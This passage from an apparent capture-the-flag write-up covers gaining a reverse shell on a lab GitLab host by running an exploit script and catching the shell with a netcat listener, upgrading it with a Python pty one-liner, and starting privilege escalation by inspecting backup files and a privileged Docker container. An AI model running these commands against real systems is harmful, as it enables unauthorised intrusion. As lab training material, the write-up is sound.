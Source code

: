 We start a netcat listener by executing `nc -lvnp 443` and launch the exploit by executing `python3 49334.py -u x -p Testing123! -g http://10.10.10.220 -l 10.10.16.2 -P 443`. Note that the values of the `-u` and `-p` flags are the username and password we used when creating an account [earlier]({{path}}#register). Additionally, note that the IP address specified with the `-l` flag should be your IP address in the lab environment.

![exploit](/assets/{{ imgDir }}/exploit.png)

![revShell](/assets/{{ imgDir }}/revShell.png)

After a couple of seconds, the target connects to us on port 443 and we obtain a shell. We can confirm that the host has `python3` installed by executing `which python3` which we can then use to upgrade our shell by executing `python3 -c "import pty; pty.spawn('/bin/bash')"`.

# Privilege Escalation
The `/opt` directory is a directory where unbundled packages are normally installed. In other words, it is a location where the user can install applications which can not be downloaded using a package manager like apt, yum or pacman. If we execute `ls -l /opt` on the target host, we can see that the directory contains another directory named `backup`. In the `backup` directory, we can then find a file named "docker-compose.yml" and a file named "gitlab.rb".

{% highlight none linenos %}
git@gitlab:~/gitlab-rails/working$ @@ls -l /opt@@
ls -l /opt
total 12
drwxr-xr-x 2 root root 4096 Dec  7  2020 @@@backup@@@
drwxr-xr-x 1 root root 4096 Dec  1  2020 gitlab
git@gitlab:~/gitlab-rails/working$ @@ls -l /opt/backup@@
ls -l /opt/backup
total 100
-rw-r--r-- 1 root root   872 Dec  7  2020 @@@docker-compose.yml@@@
-rw-r--r-- 1 root root 15092 Dec  1  2020 gitlab-secrets.json
-rw-r--r-- 1 root root 79639 Dec  1  2020 @@@gitlab.rb@@@
git@gitlab:~/gitlab-rails/working$
{% endhighlight %}

By inspecting the content of the `docker-compose.yml` file, shown below, we can see that it defines a Docker container. Line 16 states that the container's IP address should be `172.19.0.2` and line 27 states that it should be running as a privileged container.

{% highlight yml linenos %}
version: '2.4'

services:
  web:
    image: 'gitlab/gitlab-ce:11.4.7-ce.0'
    restart: always
    hostname: 'gitlab.example.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://172.19.0.2'
        redis['bind']='127.0.0.1'
        redis['port']=6379
        gitlab_rails['initial_root_password']=File.read('/root_pass')
    networks:
      gitlab:
        ipv4_address: 172.19.0.2
    ports:
      - '5080:80'
      #- '127.0.0.1:5080:80'
      #- '127.0.0.1:50443:443'
      #- '127.0.0.1:5022:22'
    volumes:
      - './srv/gitlab/config:/etc/gitlab'